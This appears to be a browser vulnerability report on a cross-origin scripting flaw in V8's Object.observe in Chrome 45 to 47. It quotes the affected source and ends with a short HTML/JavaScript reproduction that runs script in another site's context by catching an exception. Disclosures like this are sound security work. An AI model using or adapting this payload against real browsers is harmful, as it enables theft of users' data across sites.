 <b>VULNERABILITY DETAILS</b>
From /v8/src/object-observe.js:
----------------
function ObjectObserve(object, callback, acceptList) {
(...)
  var objectObserveFn = %GetObjectContextObjectObserve(object);
  return objectObserveFn(object, callback, acceptList);
}
----------------

From /v8/src/runtime/runtime-observe.cc:
----------------
RUNTIME_FUNCTION(Runtime_GetObjectContextObjectObserve) {
(...)
  Handle<Context> context(object->GetCreationContext(), isolate);
  return context->native_object_observe();
} 
----------------

|objectObserveFn| is derived from the observed object's creation context, potentially cross-origin. When this function is invoked, any subsequent exceptions will be created in the aforementioned context, and they'll propagated to a try-catch handler.

<b>VERSION</b>
Chrome 45.0.2454.85 (Stable)
Chrome 46.0.2490.22 (Beta)
Chrome 47.0.2503.0 (Dev)
Chromium 47.0.2510.0 (Release build compiled today)

<b>REPRODUCTION CASE</b>
<script>
var i = document.documentElement.appendChild(document.createElement('iframe'));
i.onload = function() {
  try {
    Object.observe(frames[0].location, Map, 0);
  } catch(e) {
    e.constructor.constructor('alert(location)')();
  }
}
i.src = 'https://abc.xyz';
</script>